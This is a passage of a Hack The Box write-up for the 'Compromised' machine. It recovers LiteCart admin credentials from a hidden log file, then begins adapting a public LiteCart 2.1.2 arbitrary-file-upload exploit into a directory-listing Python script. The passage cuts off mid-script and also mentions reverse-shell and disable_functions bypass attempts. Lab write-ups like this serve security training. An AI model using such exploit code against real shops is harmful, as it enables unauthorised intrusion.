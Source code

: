 ```php
  }

  if (empty($_POST['username']) && !empty($_SERVER['PHP_AUTH_USER'])) $_POST['username'] = !empty($_SERVER['PHP_AUTH_USER']) ? $_SERVER['PHP_AUTH_USER'] : '';

  $page_login = new view();
  $page_login->snippets = array(
    'action' => $redirect_url,
  );
  echo $page_login->stitch('pages/login');

  require_once vmod::check(FS_DIR_HTTP_ROOT . WS_DIR_INCLUDES . 'app_footer.inc.php');
```

It seems to suggest the presence of `.log2301c9430d8593ae.txt`.

{% include image.html image_alt="4286a84b.png" image_src="/93ee34f6-74ca-497c-9631-f0f65044a19b/4286a84b.png" %}

Bingo!

### LiteCart 2.1.2 - Arbitrary File Upload

Armed with `admin`'s credentails (`admin:theNextGenSt0r3!~`), we can repurpose EDB-ID [45267](https://www.exploit-db.com/exploits/45267) to fit our needs. Long story short, I've used the exploit to run `phpinfo()` and things are not looking good because `disable_functions` blocked all the so-called dangerous functions needed for a reverse shell and even things like the Chankro `disable_functions` bypass.

{% include image.html image_alt="bff6da2f.png" image_src="/93ee34f6-74ca-497c-9631-f0f65044a19b/bff6da2f.png" %}

Fret not. We can still repurpose the exploit to list directories and read files.

<div class="filename"><span>dir.py</span></div>

```python
#!/usr/bin/env python
import mechanize
import cookielib
import urllib2
import requests
import sys
import argparse
import random
import string
parser = argparse.ArgumentParser(description='LiteCart')
parser.add_argument('-t',
                    help='admin login page url - EX: https://IPADDRESS/admin/')
parser.add_argument('-p',
                    help='admin password')
parser.add_argument('-u',
                    help='admin username')
parser.add_argument('-d',
                    help='directory to list')
args = parser.parse_args()
if(not args.u or not args.t or not args.p):
    pass #sys.exit("-h for help")
url = "http://compromised.htb/shop/admin/" # args.t
user = 'admin' # args.u
password = 'theNextGenSt0r3!~' # args.p
directory = args.d

br = mechanize.Browser()
cookiejar = cookielib.LWPCookieJar()
br.set_cookiejar( cookiejar )
```

[1]: https://www.hackthebox.eu/home/machines/profile/276
[2]: https://www.hackthebox.eu/home/users/profile/103781
[3]: https://www.hackthebox.eu/